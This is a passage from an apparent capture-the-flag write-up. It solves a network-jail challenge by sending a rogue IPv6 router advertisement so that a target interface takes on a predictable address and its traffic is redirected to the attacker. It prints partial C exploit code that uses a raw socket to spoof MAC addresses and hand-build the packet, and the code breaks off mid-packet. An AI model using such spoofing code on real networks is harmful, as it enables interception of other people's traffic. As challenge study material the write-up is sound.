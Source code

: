 If `flag_if` were to receive a router advertisement with the prefix `2001:db8:6e02:2663::/64`, then it would use its EUI-64 to generate the globally unique address `2001:db8:6e02:2663:8815:22ff:fe31:b4fc`. Thus, it would pass through the bridge since it satisfies table `filter` rule 2.

At this stage, we have discovered the solution: give `jail_if` the flag's destination IP address, and then send a rogue router advertisement to `flag_if` with the prefix `2001:db8:6e02:2663::/64`; we will pass through the bridge as our MAC addresses satisfy table `filter` rule 1. `flag_if` will calculate its global scope IPv6 address and start using that to send to the flag's destination IP. Because `jail_if` has the destination IP, we will receive it.

The hard part is implementation. I chose to write my exploit in C, compile on my local system, and then transfer it to the challenge server by encoding-copy-pasting-decoding base64 data since there's no GCC on the challenge server. My exploit sends a rogue router advertisement with the right source and destination MACs and the desired prefix:

```c
#include <arpa/inet.h>
#include <linux/if_packet.h>
#include <net/if.h>
#include <netinet/ether.h>
#include <sys/ioctl.h>
#include <string.h>

int main()
{
    int sockfd = 0;
    int tx = 0;
    char buffer[1024] = {0};
    char *iface = "wlp3s0";
    struct ifreq ifacei;
    struct ether_header *eh = (struct ether_header *)buffer;
    struct sockaddr_ll socket_address;

    /* Make a socket. */
    sockfd = socket(AF_PACKET, SOCK_RAW, IPPROTO_RAW);

    /* Get the interface index. */
    memset(&ifacei, 0, sizeof(struct ifreq));
    strncpy(ifacei.ifr_name, iface, strlen(iface));
    ioctl(sockfd, SIOCGIFINDEX, &ifacei);

    /* Ethernet source and destination MACs. */
    memcpy(eh->ether_shost, "\x4a\xc5\x2d\x9b\x8c\x8d", 6);
    memcpy(eh->ether_dhost, "\x8a\x15\x22\x31\xb4\xfc", 6);

    /* Ether type. */
    eh->ether_type = htons(ETH_P_IP);
    tx += sizeof(struct ether_header);

    /* Interface index. */
    socket_address.sll_ifindex = ifacei.ifr_ifindex;

    /* Address length. */
    socket_address.sll_halen = ETH_ALEN;

    /* Destination MAC */
    memcpy(socket_address.sll_addr, "\x8a\x15\x22\x31\xb4\xfc", 6);

    /* Packet data. */
    char data[] =
        "\x8a\x15\x22\x31\xb4\xfc"  // Destination MAC
        "\x4a\xc5\x2d\x9b\x8c\x8d"  // Source MAC
        "\x86\xdd"                  // Type IPv6
        "\x6e"                      // Version 6
        "\x00\x00\x00"              // Flow label
```